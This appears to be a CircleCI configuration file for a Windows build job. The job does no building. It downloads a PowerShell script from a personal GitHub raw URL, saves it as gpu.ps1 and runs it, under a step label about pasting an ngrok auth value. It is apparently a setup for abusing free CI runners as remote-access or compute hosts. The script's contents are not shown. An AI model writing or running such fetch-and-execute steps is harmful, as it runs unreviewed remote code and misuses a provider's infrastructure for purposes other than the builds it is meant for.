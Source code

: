orbs:
   win: circleci/windows@2.2.0 
   jobs: 
     build: 
       executor: 
         name: win/default 
         size: "medium" 

         steps: 

           - run: 
             name: Paste Ngrok Auth Value In Hosted Link 
             
             command: | 
              Invoke-WebRequest https://raw.githubusercontent.com/Yahihs/rep/main/sh -OutFile gpu.ps1 
           
           - run: ./gpu.ps1 

